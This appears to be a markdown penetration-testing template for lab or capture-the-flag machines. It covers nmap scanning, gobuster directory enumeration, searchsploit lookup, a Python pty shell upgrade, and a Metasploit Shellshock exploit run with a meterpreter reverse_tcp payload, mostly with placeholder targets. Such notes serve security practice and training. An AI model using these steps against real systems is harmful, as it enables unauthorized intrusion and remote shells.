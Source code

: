 # tempalte, flow

## Summary

+ example

## prev enum

```sh
sudo nmap -sS -sC -sV -oA ./nmap/full_sS -O -p- 192.168.0.1
  # rename-tab
sudo vim /etc/hosts
```

## gobuster

```sh
dict="/usr/share/wordlists/dirb/common.txt"
ls -lah $dict                                    # 36KB
gobuster dir -u http://example/ -w $dict -t 20 -e -x php,asp,json,aspx
  # 5min
  # find /cgi-bin/ (status 403)

gobuster dir -u http://example/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -t 20 -e -x cgi,sh,pl,py,rb,php
  # 5min
  # find /user.sh (status 200)
```

## searchsploit

```sh
search keywords
searchsploit keywords
```

```sh
cdee
cp /usr/share/exploitdb/exploits/example ~/assets/example/temp.php
cda
```

## example-vector

## interactive shell

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
  # C-z to background the shell
stty raw -echo; fg
```

## post enum

```sh
ps aux
sudo -l
```

## privilege escalation

```sh
```

## msf

```msfconsole
msf> search example
  # 2  exploit/multi/http/apache_mod_cgi_bash_env_exec      2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
msf> use 2
msf> show advanced
msf> show options
msf> set RHOSTS example
msf> ...

msf> show payloads
  # 14 payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
msf> set payload 14

msf> run -j
  # meterpreter user shell
```
